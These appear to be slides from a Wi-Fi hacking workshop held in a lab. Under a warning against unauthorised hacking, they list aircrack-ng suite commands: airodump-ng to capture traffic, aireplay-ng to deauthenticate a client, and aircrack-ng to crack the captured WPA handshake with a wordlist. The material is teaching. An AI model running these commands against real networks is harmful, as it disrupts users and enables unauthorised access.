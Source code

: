 Wi\-Fi Hacking Workshop

![](img/WifiHackingWorkshop0.png)

Do not hack into any networks without prior authorisation

Wireless AP Setup

Configure the Wireless Access point

![](img/WifiHackingWorkshop1.png)

Add the Wireless adapter to VirtualBox

![](img/WifiHackingWorkshop2.png)

Check for conflicting processes

Start the wireless adapter in monitor mode

![](img/WifiHackingWorkshop3.png)

Discovering BSSID

![](img/WifiHackingWorkshop4.png)

<span style="color:#000000">Sudo airodump\-ng \-c 11 wlan0</span>

Discovering devices

![](img/WifiHackingWorkshop5.png)

sudo airodump\-ng \-c 11 \-\-bssid B0\-95\-75\-5C\-3B\-94 \-w psk wlan0

sudo aireplay\-ng \-0 10 \-a B0:95:75:5C:3B:94 \-c 0C:8D:CA:A6:93:8D wlan0

![](img/WifiHackingWorkshop6.png)

Cracking Password

aircrack\-ng \-w passwordlist\.txt psk\-02\.cap

![](img/WifiHackingWorkshop7.png)

